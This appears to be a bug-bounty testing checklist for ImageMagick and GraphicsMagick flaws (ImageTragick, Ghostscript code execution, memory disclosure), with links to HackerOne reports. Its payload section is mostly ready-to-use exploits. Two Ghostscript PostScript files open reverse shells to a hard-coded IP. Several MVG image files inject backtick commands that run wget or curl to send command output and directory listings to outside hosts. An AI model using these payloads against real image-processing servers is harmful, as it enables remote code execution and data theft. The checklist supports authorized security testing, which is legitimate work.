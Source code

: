 # Image Magic / Graphics Magic vulnerabilities

- [ ] Anywhere where we can upload a picture, check for Image Tragic. Especially in profile picture uploads.
- [ ] Firewalls could be blocking certain requests. Try exfiltration through DNS.
  - https://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html
- [ ] Check if we are able to edit an uploaded image. Does the request contain arguments? If the backend is using GraphicsMagic, we could inject commands.
  - https://hackerone.com/reports/212696

- [ ] If there is no validation on the file type and Ghostscript is enabled we could get RCE
  - https://hackerone.com/reports/422944

- [ ] Check if we can disclose server memory through image magic (CVE-2017-15277)
  - https://hackerone.com/reports/302885
  - https://hackerone.com/reports/251732
  - https://hackerone.com/reports/274594
  - https://hackerone.com/reports/315256
  - 
  
  
## Payloads

 - https://hackerone.com/reports/422944
 
```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("167.71.9.74",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/167.71.9.74/8080 0>&1') currentdevice putdeviceprops
```


- https://hackerone.com/reports/135072

x.gif
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`wget -O- 167.71.9.74:1337 > /dev/null`'
pop graphic-context
```

- https://web.archive.org/web/20190104220048/https://nahamsec.com/exploiting-imagemagick-on-yahoo/

x.png
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://167.71.9.74:1337/ -d @- > /dev/null`'
pop graphic-context
```

- https://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=%60for i in $(ls /) ; do curl "http://$i.attacker.tld/" -d @- > /dev/null; done`'
pop graphic-context
```
